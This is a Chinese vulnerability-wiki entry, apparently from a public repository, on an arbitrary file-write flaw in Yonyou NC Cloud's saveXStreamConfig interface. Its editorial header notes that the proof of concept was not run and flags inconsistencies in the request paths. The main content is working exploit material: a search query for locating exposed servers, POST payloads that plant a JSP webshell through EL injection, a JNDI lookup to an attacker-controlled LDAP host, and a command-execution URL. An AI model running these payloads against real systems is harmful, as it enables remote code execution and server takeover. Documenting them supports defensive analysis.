


# 用友NCCloud saveXStreamConfig写入执行链

## 条目说明

- 对象与具体问题：用友NCCloud；saveXStreamConfig写入执行链
- 版本、配置及部署条件：无版本，EL/JNDI依赖
- 认证与权限前提：未明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 写407.jsp和301.jsp却访问cmdtest.jsp，链路径冲突
- 两payload粘一代码块，首请求缺HTTP/Host，Content-Type不同未解
- 同151等，不新增上传实体

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

用友 NC Cloud jsinvoke 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件至服务器中，获取系统权限

### 漏洞影响

用友 NC Cloud

### 网络测绘

```
app="用友-NC-Cloud"
```

### 漏洞复现

登陆页面


验证POC

```
POST /uapjs/jsinvoke/?action=invoke
Content-Type: application/json

{
    "serviceName":"nc.itf.iufo.IBaseSPService",
    "methodName":"saveXStreamConfig",
    "parameterTypes":[
        "java.lang.Object",
        "java.lang.String"
    ], 
    "parameters":[
        "${param.getClass().forName(param.error).newInstance().eval(param.cmd)}",
        "webapps/nc_web/407.jsp"
    ]
}
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: 
Connection: Keep-Alive
Content-Length: 253
Content-Type: application/x-www-form-urlencoded


{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://VPSip:1389/TomcatBypass/TomcatEcho')}","webapps/nc_web/301.jsp"]}
```



```
/cmdtest.jsp?error=bsh.Interpreter&cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec(%22whoami%22).getInputStream()) 
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
